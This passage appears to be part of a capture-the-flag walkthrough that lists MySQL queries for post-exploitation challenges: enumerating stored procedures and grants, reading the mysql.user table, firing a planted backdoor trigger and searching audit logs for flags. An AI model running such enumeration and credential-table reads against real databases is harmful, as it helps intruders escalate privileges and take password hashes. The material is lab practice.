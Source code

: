 
---

### 5. POST-EXPLOITATION

#### 5.1 Privilege Escalation (Challenge 8)

```sql
-- List stored procedures
SHOW PROCEDURE STATUS WHERE Db = 'ctf_database';

-- Show procedure code
SHOW CREATE PROCEDURE get_admin_secret;

-- Call procedure
CALL get_admin_secret();

-- Check current privileges
SHOW GRANTS FOR CURRENT_USER;

-- Try to escalate (if possible)
SELECT * FROM mysql.user;
```

#### 5.2 Backdoor Detection (Challenge 9)

```sql
-- List triggers
SHOW TRIGGERS FROM ctf_database;

-- Show trigger code
SHOW CREATE TRIGGER backdoor_trigger;

-- Check audit log for backdoor activity
SELECT * FROM audit_log WHERE action LIKE '%backdoor%';

-- Trigger the backdoor
INSERT INTO user_logs (user_id, action, ip_address)
VALUES (1, 'test', '127.0.0.1');

-- Check result
SELECT * FROM audit_log ORDER BY timestamp DESC LIMIT 5;
```

#### 5.3 Log Analysis (Challenge 10)

```sql
-- Check audit logs
SELECT * FROM audit_log;

-- Search for specific entries
SELECT * FROM audit_log WHERE action LIKE '%log%';

-- Check MySQL general log (if accessible)
-- File: /var/lib/mysql/general.log

-- Extract flag
SELECT * FROM audit_log WHERE action = 'log_analysis_key';
```
